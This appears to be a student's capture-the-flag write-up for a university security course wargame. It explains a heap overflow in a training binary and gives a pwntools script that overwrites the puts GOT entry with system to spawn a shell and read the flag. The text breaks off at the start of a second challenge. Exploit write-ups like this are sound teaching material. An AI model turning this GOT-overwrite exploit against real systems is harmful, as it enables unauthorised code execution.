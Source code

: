 # **COMP6447 Wargame 4** - Johnathan Liauw (z5136212)
## **1. heap-1 - babys_first_1**
_General Overview of Problems Faced:_
Has to learn about how heap memory is allocated and reverse the binary to figure out how the malloced memory is used by the program

_List of Vulnerabilities:_
1. User's input can overflow the first malloc chunk and the second malloc chunk

_Steps To Exploit:_
1. Reverse the binary to find the exact offset to overwrite the puts GOT address and the address it use as the argument
2. Overwrite the puts GOT address with system GOT and the argument address with an address found in the binary pointing to _"/bin/sh"_
3. Call view fish so system will get called with the argument we supplied.

_Script/Command Used:_
```python
#!/usr/bin/python

from pwn import *
import re

system = 0x8048526
command = 0x8048d74     # /bin/sh

c = remote("wargames.6447.sec.edu.au", 9001)

c.sendline("1")
c.sendline("1")
c.sendline("1")
c.sendline("1")

payload = "a"*102
payload += p32(system)
payload += "a"*13
payload += p32(command)

log.info("Sending payload...")
c.sendline(payload)

c.sendline("3")
c.sendline("1")

time.sleep(1)

c.sendline("cat /flag")

reply = c.recvuntil('}')
flag = re.search("6447{(.*)}", reply).group(0)

log.success("Flag found: %s" %(flag))

c.close()
```
_Flag:_
'6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}'
---
## **2. heap-2 - babys_first_2**
_General Overview of Problems Faced:_
Have to understand how fastbin deal with free chunks then allocating them again
